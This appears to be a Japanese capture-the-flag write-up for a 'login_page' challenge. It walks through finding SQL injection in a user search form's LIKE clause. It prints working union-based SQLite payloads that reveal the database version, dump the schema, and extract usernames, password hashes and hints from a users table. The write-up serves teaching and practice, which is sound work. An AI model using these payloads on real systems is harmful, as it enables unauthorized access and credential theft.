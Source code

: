 ![login_page の最初のページ](../images/2020-07-22_loginpage1.png)

SQL インジェクションを疑ってログインフォームに `"` や `'` などを入力してみましたが、反応はありません。ログインフォームは脆弱ではないようです。

ユーザの検索フォームでは、適当な文字列を入力すると、その文字列をユーザ名に含むユーザの自己紹介が表示されました。`%` を入力すると全ユーザの情報が表示されたことから、SQL の `LIKE` 句にユーザ入力が挿入されていることが推測できます。

![`%` を入力すると…](../images/2020-07-22_loginpage2.png)

SQLi はどうでしょうか。`"/**/union/**/select/**/1,2;--` を入力すると以下のように出力されました。検索フォームは SQLi ができるようです。

![わーい SQLi だ](../images/2020-07-22_loginpage3.png)

`"/**/union/**/select/**/1,sqlite_version();--` を入力すると `3.27.2` が出力されたことから、SQLite3 が使われていると推測できます。

`"union/**/select/**/sql/**/,2/**/from/**/sqlite_master;--` を入力すると、`CREATE TABLE users ( username text primary key not null, password_hash text not null, hint text not null, bio text not null)` と出力され、`hint` や `password_hash` といったカラムがユーザ情報を格納しているテーブルに存在していることがわかりました。

`"and(0)union/**/select/**/username||':'||password_hash/**/,hint/**/from/**/users;--` を入力してパスワードのハッシュ値とヒントを抜き出してみましょう。
